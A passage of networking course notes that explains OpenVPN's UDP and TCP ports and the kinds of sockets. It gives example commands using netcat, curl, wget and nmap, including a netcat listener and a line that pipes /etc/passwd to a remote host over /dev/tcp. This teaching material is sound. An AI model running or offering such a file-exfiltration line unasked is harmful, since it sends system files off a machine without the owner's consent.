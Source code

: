    - OpenVPN can be configured to use UDP or TCP as it’s transport layer protocols:

       - UDP Protocol (Default):

           - OpenVPN often uses UDP for communication, providing a lightweight and connectionless transport protocol suitable for VPNs.

           - The default UDP port number for OpenVPN is 1194.

       - TCP Protocol:

           - OpenVPN can also be configured to use TCP for communication, which can be useful in scenarios where UDP traffic is restricted or blocked.

           - The default TCP port number for OpenVPN is 1194, but it can be configured to use other port numbers such as port 443.

# Sockets

## Describe Socket Types

   - Understanding socket types for network functions

       - User Space Sockets:

           - Stream socket - Normally used with TCP, SCTP, and Bluetooth. A stream socket provides a connection-oriented and sequenced flow of data which has methods for establishment and teardown of connections as well as error detection.

           - Datagram socket - Normally used with UDP. A datagram socket is connection-less by nature. Sockets built this way can send and receive data, but there is no mechanism to retransmit data if a packet is dropped.

           - Examples:

               - Using a User application such as a Web Browser, FTP, Telnet, SSH, netcat, etc to connect to any listening port.
                ```
                nc 10.0.0.1 22
                firefox http://10.0.0.1
                wget -r http://10.0.0.1
                curl ftp://10.0.0.1
                ftp 10.0.0.1
                telnet 10.0.0.1
                ssh user@10.0.0.1
                ```
               - Using tcpdump or wireshark to read a file
                ```
                tcpdump -r capture.pcap
                ```
               - Using nmap with no switches (-sS) or -sT
                ```
                nmap 10.0.0.1
                nmap -sT 10.0.0.1
                ```
               - Opening listening ports above the Well-Known range (1024+)
                ```
                python -m SimpleHTTPServer 7800
                nc -lvp 1234
                ```
               - Using /dev/tcp or /dev/udp to transmit data
                ```
                cat /etc/passwd > /dev/tcp/10.0.0.1/1234
                ```
       - Kernel Space Sockets:
